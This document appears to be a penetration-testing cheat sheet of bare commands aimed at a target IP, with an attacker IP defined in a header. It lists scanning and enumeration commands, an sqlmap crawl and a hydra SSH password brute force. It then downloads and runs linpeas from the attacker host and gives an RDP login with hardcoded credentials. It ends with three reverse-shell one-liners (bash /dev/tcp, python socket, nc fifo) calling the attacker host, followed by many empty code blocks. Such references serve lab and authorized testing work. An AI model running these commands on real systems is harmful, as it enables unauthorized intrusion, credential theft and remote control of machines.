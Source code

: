 ```yaml
---
target_ip: 1.1.1.1
my_ip: 2.2.2.2
---
```



```php
nmap -A -p- 1.1.1.1
```

```php
nmap -sC -sV -p- 1.1.1.1
```

```php
dig 1.1.1.1 -t mx
```

```php
proxychains nmap -sT --top-ports=100 -Pn 1.1.1.1
```

```php
gobuster dir -w /usr/share/seclists/SecLists-master/Discovery/ -u 1.1.1.1
```

```php
gobuster vhost --append-domain --wordlist /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt -u 1.1.1.1
```

```php
wpscan --url http://1.1.1.1/webservices/wp/index.php --proxy 127.0.0.1:8080 --enumerate ap tt at
```

```php
sqlmap -u https://1.1.1.1/ –crawl=1
```

```php
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://1.1.1.1
```

```php
wget 2.2.2.2/linpeas.sh
```

```php
enum4linux -h 2.2.2.2
```

```php
curl http://2.2.2.2/linpeas.sh > linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

```php
xfreerdp /u:yoshi /p:"Mushroom!" /v:2.2.2.2
```

```php

```

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- background `ctrl+z`
```php
stty -a 
```

```php
echo $TERM
```

```php
stty raw -echo 
```
- foreground `fg`
```php
stty rows <x> columns <y>
```

```php
export TERM=xterm
```

```php
bash -c "bash -i >& /dev/tcp/2.2.2.2/8443 0>&1"
```

```php
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("2.2.2.2",8443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```php
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 2.2.2.2 8443 >/tmp/f
```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```

```php

```










